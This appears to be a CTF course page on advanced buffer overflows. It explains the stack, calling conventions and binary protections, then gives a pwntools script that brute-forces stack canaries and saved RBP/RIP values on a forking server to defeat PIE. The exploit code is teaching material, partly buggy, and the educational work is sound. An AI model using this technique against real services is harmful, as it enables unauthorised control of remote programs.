


# Week3 PWN: Advanced Buffer Overflow

## Binary Exploitation

Binaries, or executables, are machine code for a computer to execute. For the most part, the binaries that you will face in CTFs are Linux ELF files or the occasional windows executable. Binary Exploitation is a broad topic within Cyber Security which really comes down to finding a vulnerability in the program and exploiting it to gain control of a shell or modifying the program's functions.

Common topics addressed by Binary Exploitation or 'pwn' challenges include:

* Registers
* **The Stack**
* **Calling Conventions**
* Global Offset Table (GOT)
* Buffers
  * Buffer Overflow
* Return Oriented Programming (ROP)
* **Binary Security**
  * **No eXecute (NX)**
  * **Address Space Layout Randomization (ASLR)**
  * **Stack Canaries**
  * **Relocation Read-Only (RELRO)**
* The Heap
  * Heap Exploitation
* Format String Vulnerability

## The Stack

In computer architecture, the stack is a hardware manifestation of the stack data structure (a Last In, First Out queue).

In x86, the stack is simply an area in RAM that was chosen to be the stack - there is no special hardware to store stack contents. The `esp`/`rsp` register holds the address in memory where the bottom of the stack resides. When something is `push`ed to the stack, `esp` decrements by 4 (or 8 on 64-bit x86), and the value that was `push`ed is stored at that location in memory. Likewise, when a `pop` instruction is executed, the value at `esp` is retrieved (i.e. `esp` is dereferenced), and `esp` is then incremented by 4 (or 8).

**N.B. The stack "grows" down to lower memory addresses!**

Conventionally, `ebp`/`rbp` contains the address of the top of the current **stack frame**, and so sometimes local variables are referenced as an offset relative to `ebp` rather than an offset to `esp`. A stack frame is essentially just the space used on the stack by a given function.

### Uses

The stack is primarily used for a few things:

- Storing function arguments
- Storing local variables
- Storing processor state between function calls

### Example

Let's see what the stack looks like right after `say_hi` has been called in this 32-bit x86 C program:

```
#include <stdio.h>

void say_hi(const char * name) {
    printf("Hello %s!\n", name);
}

int main(int argc, char ** argv) {
    char * name;
    if (argc != 2) {
        return 1;
    }
    name = argv[1];
    say_hi(name);
    return 0;
}
```

And the relevant assembly:

```
0804840b <say_hi>:
 804840b:   55                      push   ebp
 804840c:   89 e5                   mov    ebp,esp
 804840e:   83 ec 08                sub    esp,0x8
 8048411:   83 ec 08                sub    esp,0x8
 8048414:   ff 75 08                push   DWORD PTR [ebp+0x8]
 8048417:   68 f0 84 04 08          push   0x80484f0
 804841c:   e8 bf fe ff ff          call   80482e0 <printf@plt>
 8048421:   83 c4 10                add    esp,0x10
 8048424:   90                      nop
 8048425:   c9                      leave
 8048426:   c3                      ret

08048427 <main>:
 8048427:   8d 4c 24 04             lea    ecx,[esp+0x4]
 804842b:   83 e4 f0                and    esp,0xfffffff0
 804842e:   ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048431:   55                      push   ebp
 8048432:   89 e5                   mov    ebp,esp
 8048434:   51                      push   ecx
 8048435:   83 ec 14                sub    esp,0x14
 8048438:   89 c8                   mov    eax,ecx
 804843a:   83 38 02                cmp    DWORD PTR [eax],0x2
 804843d:   74 07                   je     8048446 <main+0x1f>
 804843f:   b8 01 00 00 00          mov    eax,0x1
 8048444:   eb 1c                   jmp    8048462 <main+0x3b>
 8048446:   8b 40 04                mov    eax,DWORD PTR [eax+0x4]
 8048449:   8b 40 04                mov    eax,DWORD PTR [eax+0x4]
 804844c:   89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 804844f:   83 ec 0c                sub    esp,0xc
 8048452:   ff 75 f4                push   DWORD PTR [ebp-0xc]
 8048455:   e8 b1 ff ff ff          call   804840b <say_hi>
 804845a:   83 c4 10                add    esp,0x10
 804845d:   b8 00 00 00 00          mov    eax,0x0
 8048462:   8b 4d fc                mov    ecx,DWORD PTR [ebp-0x4]
 8048465:   c9                      leave
 8048466:   8d 61 fc                lea    esp,[ecx-0x4]
 8048469:   c3                      ret
```

Skipping over the bulk of `main`, you'll see that at `0x8048452` `main`'s `name` local is pushed to the stack because it's the first argument to `say_hi`. Then, a `call` instruction is executed. `call` instructions first push the current instruction pointer to the stack, then jump to their destination. So when the processor begins executing `say_hi` at `0x0804840b`, the stack looks like this:

```
EIP = 0x0804840b (push ebp)
ESP = 0xffff0000
EBP = 0xffff002c

        0xffff0004: 0xffffa0a0              // say_hi argument 1
ESP ->  0xffff0000: 0x0804845a              // Return address for say_hi
```

The first thing `say_hi` does is save the current `ebp` so that when it returns, `ebp` is back where `main` expects it to be. The stack now looks like this:

```
EIP = 0x0804840c (mov ebp, esp)
ESP = 0xfffefffc
EBP = 0xffff002c

        0xffff0004: 0xffffa0a0              // say_hi argument 1
        0xffff0000: 0x0804845a              // Return address for say_hi
ESP ->  0xfffefffc: 0xffff002c              // Saved EBP
```

Again, note how `esp` gets smaller when values are pushed to the stack.

Next, the current `esp` is saved into `ebp`, marking the top of the new stack frame.

```
EIP = 0x0804840e (sub esp, 0x8)
ESP = 0xfffefffc
EBP = 0xfffefffc

            0xffff0004: 0xffffa0a0              // say_hi argument 1
            0xffff0000: 0x0804845a              // Return address for say_hi
ESP, EBP -> 0xfffefffc: 0xffff002c              // Saved EBP
```

Then, the stack is "grown" to accommodate local variables inside `say_hi`.

```
EIP = 0x08048414 (push [ebp + 0x8])
ESP = 0xfffeffec
EBP = 0xfffefffc

        0xffff0004: 0xffffa0a0              // say_hi argument 1
        0xffff0000: 0x0804845a              // Return address for say_hi
EBP ->  0xfffefffc: 0xffff002c              // Saved EBP
        0xfffefff8: UNDEFINED
        0xfffefff4: UNDEFINED
        0xfffefff0: UNDEFINED
ESP ->  0xfffefffc: UNDEFINED
```

**NOTE: stack space is not implictly cleared!**

Now, the 2 arguments to `printf` are pushed in reverse order.

```
EIP = 0x0804841c (call printf@plt)
ESP = 0xfffeffe4
EBP = 0xfffefffc

        0xffff0004: 0xffffa0a0              // say_hi argument 1
        0xffff0000: 0x0804845a              // Return address for say_hi
EBP ->  0xfffefffc: 0xffff002c              // Saved EBP
        0xfffefff8: UNDEFINED
        0xfffefff4: UNDEFINED
        0xfffefff0: UNDEFINED
        0xfffeffec: UNDEFINED
        0xfffeffe8: 0xffffa0a0              // printf argument 2
ESP ->  0xfffeffe4: 0x080484f0              // printf argument 1
```

Finally, `printf` is called, which pushes the address of the next instruction to execute.

```
EIP = 0x080482e0
ESP = 0xfffeffe4
EBP = 0xfffefffc

        0xffff0004: 0xffffa0a0              // say_hi argument 1
        0xffff0000: 0x0804845a              // Return address for say_hi
EBP ->  0xfffefffc: 0xffff002c              // Saved EBP
        0xfffefff8: UNDEFINED
        0xfffefff4: UNDEFINED
        0xfffefff0: UNDEFINED
        0xfffeffec: UNDEFINED
        0xfffeffe8: 0xffffa0a0              // printf argument 2
        0xfffeffe4: 0x080484f0              // printf argument 1
ESP ->  0xfffeffe0: 0x08048421              // Return address for printf
```

Once `printf` has returned, the `leave` instruction moves `ebp` into `esp`, and pops the saved EBP.

```
EIP = 0x08048426 (ret)
ESP = 0xfffefffc
EBP = 0xffff002c

        0xffff0004: 0xffffa0a0              // say_hi argument 1
ESP ->  0xffff0000: 0x0804845a              // Return address for say_hi
```

And finally, `ret` pops the saved instruction pointer into `eip` which causes the program to return to main with the same `esp`, `ebp`, and stack contents as when `say_hi` was initially called.

```
EIP = 0x0804845a (add esp, 0x10)
ESP = 0xffff0000
EBP = 0xffff002c

ESP ->  0xffff0004: 0xffffa0a0              // say_hi argument 1
```

## Calling Conventions

To be able to call functions, there needs to be an agreed-upon way to pass arguments. If a program is entirely self-contained in a binary, the compiler would be free to decide the calling convention. However in reality, shared libraries are used so that common code (e.g. libc) can be stored once and dynamically linked in to programs that need it, reducing program size.

In Linux binaries, there are really only two commonly used calling conventions: cdecl for 32-bit binaries, and SysV for 64-bit

### cdecl

In 32-bit binaries on Linux, function arguments are passed in on [the stack](https://ctf101.org/binary-exploitation/what-is-the-stack) in reverse order. A function like this:

```
int add(int a, int b, int c) {
    return a + b + c;
}
```

would be invoked by pushing `c`, then `b`, then `a`.

### SysV

For 64-bit binaries, function arguments are first passed in certain registers:

1. RDI
2. RSI
3. RDX
4. RCX
5. R8
6. R9

then any leftover arguments are pushed onto the stack in reverse order, as in cdecl.

### Other Conventions

Any method of passing arguments could be used as long as the compiler is aware of what the convention is. As a result, there have been *many* calling conventions in the past that aren't used frequently anymore. See [Wikipedia](https://en.wikipedia.org/wiki/X86_calling_conventions) for a comprehensive list.

## Binary Security

Binary Security is using tools and methods in order to secure programs from being manipulated and exploited. This tools are not infallible, but when used together and implemented properly, they can raise the difficulty of exploitation greatly.

### No eXecute (NX Bit)

The No eXecute or the NX bit (also known as Data Execution Prevention or DEP) marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.

#### **Checking for NX**

You can either use pwntools' `checksec` or `rabin2`.

```
$ checksec vuln
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

```
$ rabin2 -I vuln
[...]
nx       false
[...]
```

### Address Space Layout Randomization (ASLR)

Address Space Layout Randomization (or ASLR) is the randomization of the place in memory where the program, shared libraries, the stack, and the heap are. This makes can make it harder for an attacker to exploit a service, as knowledge about where the stack, heap, or libc can't be re-used between program launches. This is a partially effective way of preventing an attacker from jumping to, for example, libc without a leak.

Typically, only the stack, heap, and shared libraries are ASLR enabled. It is still somewhat rare for the main program to have ASLR enabled, though it is being seen more frequently and is slowly becoming the default.

### Stack Canaries

Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately.


#### Bypassing Stack Canaries

Stack Canaries seem like a clear cut way to mitigate any stack smashing as it is fairly impossible to just guess a random 64-bit value. However, leaking the address and bruteforcing the canary are two methods which would allow us to get through the canary check.

##### Stack Canary Leaking

If we can read the data in the stack canary, we can send it back to the program later because the canary stays the same throughout execution. However Linux makes this slightly tricky by making the first byte of the stack canary a NULL, meaning that string functions will stop when they hit it. A method around this would be to partially overwrite and then put the NULL back or find a way to leak bytes at an arbitrary stack offset.

A few situations where you might be able to leak a canary:

- User-controlled format string
- User-controlled length of an output
  - “Hey, can you send me 1000000 bytes? thx!”

##### Bruteforcing a Stack Canary

The canary is determined when the program starts up for the first time which means that if the program forks, it keeps the same stack cookie in the child process. This means that if the input that can overwrite the canary is sent to the child, we can use whether it crashes as an oracle and brute-force 1 byte at a time!

This method can be used on fork-and-accept servers where connections are spun off to child processes, but only under certain conditions such as when the input accepted by the program does not append a NULL byte (**read** or **recv**).

| Buffer (N Bytes) | ?? ?? ?? ?? ?? ?? ?? ?? | RBP  | RIP  |
| :--------------- | :---------------------- | :--- | :--- |

Fill the buffer N Bytes + 0x00 results in no crash

| Buffer (N Bytes) | 00 ?? ?? ?? ?? ?? ?? ?? | RBP  | RIP  |
| :--------------- | :---------------------- | :--- | :--- |

Fill the buffer N Bytes + 0x00 + 0x00 results in a crash

N Bytes + 0x00 + 0x01 results in a crash

N Bytes + 0x00 + 0x02 results in a crash

...

N Bytes + 0x00 + 0x51 results in no crash

| Buffer (N Bytes) | 00 51 ?? ?? ?? ?? ?? ?? | RBP  | RIP  |
| :--------------- | :---------------------- | :--- | :--- |

Repeat this bruteforcing process for 6 more bytes...

| Buffer (N Bytes) | 00 51 FE 0A 31 D2 7B 3C | RBP  | RIP  |
| :--------------- | :---------------------- | :--- | :--- |

Now that we have the stack cookie, we can overwrite the RIP register and take control of the program!

### Relocation Read-Only (RELRO)

Relocation Read-Only (or RELRO) is a security measure which makes some binary sections read-only.

There are two RELRO "modes": partial and full.

#### Partial RELRO

Partial RELRO is the default setting in GCC, and nearly all binaries you will see have at least partial RELRO.

From an attackers point-of-view, partial RELRO makes almost no difference, other than it forces the GOT to come before the BSS in memory, eliminating the risk of a buffer overflows on a global variable overwriting GOT entries.

#### Full RELRO

Full RELRO makes the entire GOT read-only which removes the ability to perform a "GOT overwrite" attack, where the GOT address of a function is overwritten with the location of another function or a ROP gadget an attacker wants to run.

Full RELRO is not a default compiler setting as it can greatly increase program startup time since all symbols must be resolved before the program is started. In large programs with thousands of symbols that need to be linked, this could cause a noticable delay in startup time.

## Bypassing Canary & PIE

**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**



### **Canary**

The best way to bypass a simple canary is if the binary is a program **forking child processes every time you establish a new connection** with it (network service), because every time you connect to it **the same canary will be used**.

Then, the best way to bypass the canary is just to **brute-force it char by char**, and you can figure out if the guessed canary byte was correct checking if the program has crashed or continues its regular flow. In this example the function **brute-forces an 8 Bytes canary (x64)** and distinguish between a correct guessed byte and a bad byte just **checking** if a **response** is sent back by the server (another way in **other situation** could be using a **try/except**):

```
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base
    
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

### **PIE**

In order to bypass the PIE you need to **leak some address**. And if the binary is not leaking any addresses the best to do it is to **brute-force the RBP and RIP saved in the stack** in the vulnerable function. For example, if a binary is protected using both a **canary** and **PIE**, you can start brute-forcing the canary, then the **next** 8 Bytes (x64) will be the saved **RBP** and the **next** 8 Bytes will be the saved **RIP.**

To brute-force the RBP and the RIP from the binary you can figure out that a valid guessed byte is correct if the program output something or it just doesn't crash. The **same function** as the provided for brute-forcing the canary can be used to brute-force the RBP and the RIP:

```
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```

#### **Get base address**

The last thing you need to defeat the PIE is to calculate **useful addresses from the leaked** addresses: the **RBP** and the **RIP**.

From the **RBP** you can calculate **where are you writing your shell in the stack**. This can be very useful to know where are you going to write the string *"/bin/sh\x00"* inside the stack. To calculate the distance between the leaked RBP and your shellcode you can just put a **breakpoint after leaking the RBP** an check **where is your shellcode located**, then, you can calculate the distance between the shellcode and the RBP:

```
INI_SHELLCODE = RBP - 1152
```

From the **RIP** you can calculate the **base address of the PIE binary** which is what you are going to need to create a **valid ROP chain**. To calculate the base address just do `objdump -d vunbinary` and check the disassemble latest addresses:



In that example you can see that only **1 Byte and a half is needed** to locate all the code, then, the base address in this situation will be the **leaked RIP but finishing on "000"**. For example if you leaked *0x562002970**ecf*** the base address is *0x562002970**000***

```
elf.address = RIP - (RIP & 0xfff)
```

